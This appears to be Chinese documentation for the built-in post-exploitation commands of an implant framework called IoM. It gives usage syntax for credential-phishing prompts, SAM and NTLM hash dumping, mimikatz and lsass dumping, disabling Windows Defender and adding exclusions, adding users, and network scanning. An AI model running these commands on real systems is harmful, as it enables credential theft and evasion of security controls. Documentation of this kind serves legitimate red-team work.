

## embed mal

在 IoM 的 v0.1.1 中集成了一系列内置的 embed 功能:


可以在[embed 的详细文档](/IoM/manual/mal/embed)中找到所有的相关命令

### askcreds

askcres是一个Windows凭证窃取功能，通过伪造 Windows 安全弹窗诱骗用户输入用户名和密码。

```
askcreds [-p prompt] [-n note] [-t wait_time]
```

- --note: note to display (default:  Please verify your Windows user credentials to proceed )
- --prompt: prompt to display (default:  Restore Network Connection )
- --wait_time: password to dump credentials for (default:  30 )


windows会弹出如下窗口


### autologon

autologon 用于获取 Windows 自动登录的凭据

```
autologon
```


### credman

credman 用于获取 Windows Credential Manager 中的凭据

```
credman
```


### curl
curl 用于发送 HTTP 请求, 支持 GET/POST/PUT/PATCH/DELETE的常见方法，以及自定义 header/useragent

```
curl --host [host] --port [port] --method [method] --header [header] --body [body] --useragent [useragent] --noproxy
```

Flags如下

- --body: request body (default: ``)
- --disable-output: disable output display (default:  false )
- --header: custom header (default: ``)
- --host: target host (default: ``)
- --method: HTTP method (GET, POST, PUT, PATCH, DELETE) (default:  GET )
- --noproxy: disable proxy usage (default:  false )
- --port: target port (default:  0 )
- --useragent: custom user agent (default: ``)


### dir
dir 用于列出目录下的文件
```
dir --path [path] --subdirs
```
Flags如下：

- --path: directory path to list (default:  `` )
- --subdirs: include subdirectories (optional) (default:  false )


### dump_sam

dump_sam 用于导出 SAM, SECURITY, SYSTEM 三个注册表文件
```
dump_sam --location [location]
```
Flags如下：
- --location: folder to save (optional) (default:  C:\Windows\Temp\ )


### enum

enum 用于枚举常见的信息, 包括 arp, dc, dns, dotnet_process, drives, files, localcert, localsessions 等


全部用法如下:

```angular2html
enum arp # 枚举arp表
enum dc # 枚举域信息
enum dns # 枚举dns配置
enum dotnet_process # 枚举dotnet进程
enum drives # 枚举驱动器
enum files # 枚举文件
enum localcert # 枚举本地证书
enum localsessions # 枚举本地会话
```


### exclusion

exclusion 用于管理 Windows Defender 的排除项

```angular2html
exclusion add # 添加排除项
exclusion delete # 删除排除项
exclusion enum # 枚举排除项
```

- --data 表示路径/进程/扩展名
- --type 表示排除项的类型, 可以是 path/process/extension


### hashdump

hashdump 用于提取Windows本地用户的NTLM密码哈希
```
hashdump
```


### ipconfig

ipconfig 用于显示网络配置
```
ipconfig
```


### kill_defender

kill_defender 用于杀死或检查 Windows Defender
```
kill_defender --action [action]
```
Flags如下：
- --action 表示动作, 可以是 kill/check


### klist
klist 用于与缓存的 Kerberos 票据交互
```
klist --action [action] --spn [spn]
```
Flags如下：
- --action 表示动作, 可以是 get/purge/empty
- --spn 表示目标 SPN, 当动作是 get 时需要指定


### ldapsearch
ldapsearch 用于执行 LDAP 查询
```
ldapsearch --query [query] --attributes [attributes] --result-count [result-count] --hostname [hostname] --domain [domain]
```
Flags如下：
- --query 表示查询语句
- --attributes 表示查询的属性
- --result-count 表示查询结果的数量
- --hostname 表示查询的主机名
- --domain 表示查询的域名


### logonpassowrds

embed 通过内置 mimikatz 实现了 logonpassowrds


同时对该命令添加了解析，会在抓取的同时存储到 context/credential 中


如果你需要一个 opsec 更高的办法,可以尝试 nanodump



### memoryinfo

memoryinfo 用于获取系统内存信息
```
memoryinfo
```


### memoryreader

memoryreader 用于从目标进程读取内存

```
memoryreader --target-pid [target-pid] --pattern [pattern] --output-size [output-size]
```
Flags如下：

- --target-pid 表示目标进程ID
- --pattern 表示内存模式
- --output-size 表示输出大小


### mimikatz

mimikatz 用于执行 mimikatz 命令, 用法与单行的mimikatz一致。

```
mimikatz [command1] [command2] ...
mimikatz "privilege::debug" "token::elevate" "lsadump::sam" 
```

(注意exit退出已经默认添加到结尾, 不需要手动添加, 上述命令等价于`mimikatz "privilege::debug" "token::elevate" "lsadump::sam" "exit"`


### nanodump

nanodump 用于导出 lsass 内存转储
```
nanodump --options [options]
```
Flags如下：
- --options 表示 nanodump 的参数, 与单行的 nanodump 一致


### net 

net 用于执行 net 命令, 用法与单行的 net 一致。

net user add 用于添加用户
```angular2html
net user add --username [username] --password [password]
net user enum # 枚举用户
```


net user query 可以查询用户信息
```
net user query --username [username] --domain [domain](optional)
```


### nslookup

nslookup 用于执行 nslookup 命令, 用法与原生的 nslookup 基本一致。

```
nslookup [host] [server] # 简单查询
nslookup --host [host] --server [server] --record-type [record-type] # 带参数查询
```

Flags如下：
- --host 表示目标主机
- --server 表示 DNS 服务器
- --record-type 表示记录类型(A, NS, CNAME, MX, AAAA, etc.)


### pingscan

pingscan 用于执行 ping 扫描.

```
pingscan --target [target]
```
Flags如下：
- --target 表示目标主机(可以参考的格式有 192.168.1.1, 192.168.1.1-192.168.1.255, 192.168.1.0/24)


### port scan

portscan 用于执行端口扫描.

```
portscan --target [target] --ports [ports]
```

Flags如下：
- --target 表示目标主机(可以参考的格式有 192.168.1.1, 192.168.1.1-192.168.1.255, 192.168.1.0/24)
- --ports 表示目标端口(可以参考的格式有 80,443,8080 或 1-1000)


### readfile

readfile 用于读取文件内容
```
readfile --filepath [filepath]
```
Flags如下：
- --filepath 表示目标文件路径


### route

route 用于输出路由表

```
route print
```


### screenshot
screenshot 用于截屏

```
screenshot --filename [filename]
```

Flags如下：
- --filename 表示截屏文件名(默认为 screenshot.jpg)


### systeminfo

systeminfo 用于输出系统信息

```
systeminfo
```


### wifi

wifi 用于管理 WiFi 连接

```
wifi enum # 枚举WiFi
wifi dump --profilename [profilename] # 导出WiFi详细配置
```

Flags如下：
- --profilename 表示 WiFi 名称


### load_prebuild

按照命令的分组预打包了各个分组的 module, 用来动态加载. 包括

- full
- fs
- sys
- rem
- net
- execute

如果编译的 nano 的 implant， 可以便捷热加载对应的功能


